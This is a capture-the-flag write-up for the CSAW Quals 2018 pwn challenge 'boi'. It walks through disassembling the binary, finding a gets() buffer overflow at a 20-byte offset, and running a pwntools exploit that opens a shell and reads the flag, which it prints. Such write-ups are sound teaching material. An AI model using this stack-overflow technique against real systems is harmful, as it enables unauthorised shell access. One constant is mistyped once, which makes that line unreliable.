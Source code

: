 ## CTF: CSAW Quals 2018
## Category: PWN
## Point Value: 25
## Challenge Author: github.com/Helithumper

## Challenge Description

```bash
    bigboy
    Category: Pwn Points: 25 Solved: 656 Description:

    Only big boi pwners will get this one!

    nc pwn.chal.csaw.io 9000
```

We were given an ELF to work with. First thing I did was run `file` on it:
```bash
    boi: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked,
    interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=1537584f3b2381e1b575a67cba5fbb87878f9711, not stripped
```
So we were dealing with a 64 bit ELF.

Upon running, I found the following:
```bash
    ➜  boi ./boi
    Are you a big boiiiii??
    yes
    Wed Sep 19 04:27:55 UTC 2018
```
So when we give it text, it gives us the current time UTC... hmm

Disassembler time!

![Binary Ninja Disassembly](/images/bigboi1.png)

So what we see is that a conditional is run after `read` is called to compare `eax` with `0xcaf3baee`. If our value is not equal to `0xcad3baee`, then `/bin/date` is run. Else `/bin/bash` is run. You can guess which path of execution we want...

So from what I can see here i'm betting it's a buffer overflow given that `gets` is used. `gets` doesn't check for buffer sizes and is thus extremely volatile. If I name both the variable that `gets` puts our input into as well as the variable being compared to `0xcaf3baee` in Binja, then we can see offsets:

![Stack Overview](/images/bigboi2.png)

So we know that there is a difference of:

    0x38-0x28 = 16 Bytes

between our variables. The difference we see, however, is that our variable is actually at that offset `+0x4`.
![+0x4](/images/bigboi3.png)
So we add 4 to 16 Bytes and we get an offset of 20 Bytes.

With this knowledge, we can then create our payload:
```python
    from pwn import *


    p = remote('pwn.chal.csaw.io',9000)

    print(p.recvline())

    payload = 'A'*20 + p64(0xCAF3BAEE)

    # gdb.attach(p)

    print(payload)
    p.sendline(payload)


    p.interactive()
```
When run, we get the following:
```bash
    me@mycomputer ~/D/c/c/boi> python exploit.py
    [+] Opening connection to pwn.chal.csaw.io on port 9000: Done
     _    ___        ____   ___  _ _ _ _

    AAAAAAAAAAAAAAAAAAAA���\x00\x00\x00
    [*] Switching to interactive mode
    | |__|_ _|__ _  | __ ) / _ \(_|_|_|_)
    | '_ \| |/ _` | |  _ \| | | | | | | |
    | |_) | | (_| | | |_) | |_| | | | | |
    |_.__/___\__, | |____/ \___/|_|_|_|_|
             |___/
    ***************************************
    Are you a big boiiiii??
    AAAAAAAAAAAAAAAAAAAA���^@^@^@^@
    $ ls
    ls
    art.txt  boi  flag.txt    run.sh
    $ cat flag.txt
    cat flag.txt
    flag{Y0u_Arrre_th3_Bi66Est_of_boiiiiis}
    $
```
So yay. Shell and flag